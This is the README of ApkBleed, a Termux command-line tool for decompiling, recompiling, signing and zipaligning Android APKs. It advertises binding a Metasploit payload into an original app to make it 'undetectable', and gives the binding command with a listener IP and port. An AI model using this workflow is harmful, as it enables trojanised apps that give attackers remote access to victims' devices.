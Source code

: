 <h1 align="center"> ApkBleed </h1>
<h3 align="center"> Command Line APK Reverse Enginering Tool</h3>
<h4 align="center"> Designed For Termux. Made With <3 <3 </h4>


# ApkBleed

ApkBleed Is An Advance APK Reverse Enginering Tool Made For Specialy Made For Termux.Because Few Months Ago Termux Officialy Removed OpenJDK8 JRE From Their Repo.So Tools Like Tmux-Bunch([@Hax4Us](https://github.com/Hax4Us)) Stoped Working. Many Time Hax4Us Tried To Fix Tmux-Bunch. But Can't Make It Happend. Then [@Remo7777](http://github.com/remo7777) Came Up With An Idea Of PROOT And Created Bind-Apk. But It Consume Too Much Of Storage. After Installing It Becomes 1.8GB-2.0GB.So I Came Up With And Idea Of Alpine Linux. It Is Small In Size. But There Was An Problem Of AAPT(Android Asset Packaging Tool)Because AAPT Wasn't Available For Alpine. So I Reached To Hax4Us To Compile AAPT For Alpine.After 2-3 Days He Added AAPT Source With His New Tool ApkMod.ApkMod Is A Great Tool. But Don't Have Many Options. So I Created ApkBleed.

You Can Say That ApkBleed Is Inspired By ApkMod


# Why Is It Called ApkBleed

<b>APK</b> - Stands For Android Packages

<b>Bleed</b> - Added Bleed Just To Make It Cool


# Table Of Contents

1.[Version](http://github.com/ng1nX4O4/ApkBleed#version)

2.[Overview](http://github.com/ng1nX4O4/ApkBleed#overview)

3.[Setup](http://github.com/ng1nX4O4/ApkBleed#setup)

4.[Usage](http://github.com/ng1nX4O4/ApkBleed#overview)

5.[Contact](http://github.com/ng1nX4O4/ApkBleed#contact)

6.[Credit](http://github.com/ng1nX4O4/ApkBleed#credit)



# Version

ApkBleed  :    1.1

Aurthor   :    Rabby Sheikh


# Overview

*Decompile Source Of An APk With Decoded AndroidManifest.xml File Using Apktool Installed In Alpine PROOT.

*Recompile An Apk Source Code With Apktool And AAPT Installed In Alpine PROOT.

*Sign An Apk Using SignApk Built In Alpine PROOT.

*ZipAlign An Apk For Better Optimization Using ZipAlign

*Most Imported Binding With Metasploit Framwork. It Binds MSF Payload With An Original Apk And Make It Undectable.

*This Tool Only Work With My Java Repo You Can Find It [Here](http://github.com/ng1nX4O4/termux-java)



# Setup

[*]Note: This Tool Is Only For Termux User And Support ARM AARCH64 And X64_86 Architecture. More Support Coming Soon


```
git clone http://github.com/ng1nx4O4/ApkBleed
cd ApkBleed
```


# Usage

<h4>Decompile</h4>

```
apkbleed -d <path-of-apk> <path-of-output>
```

<h4>Recompile</h4>

```
apkbleed -r <path-of-folder> <path-of-output-apk>
```

<h4>SignApk</h4>

```
apkbleed -s <path-of-apk> <path-of-output-apk>
```

<h4>ZipAlign</h4>

```
apkbleed -z <path-of-apk> <path-of-output-apk>
```

<h4>Binding</h4>

```
apkbleed -b <host-ip> <port> <path-of-apk> <path-of-output-apk>
```

Example: apkbleed -b 127.0.0.1 4444 /sdcard/test.apk /sdcard/payload.apk


# Contact

If You Wanna Contact Me Then Here Is Some Details

Facebook  :   [@ng1nX4O4](https://www.facebook.com/ng1nX4O4)

Email     :   nullsqu4d.ng1nx4o4@gmail.com



# Credit

1.[AAPT](https://github.com/Hax4us/Apkmod/tree/master/aapt): [@Hax4Us](https://github.com/Hax4us/)

2.PROOT-APKTOOL: [@remo7777](https://github.com/remo7777)

3.ApkTool: @iBotPeaches
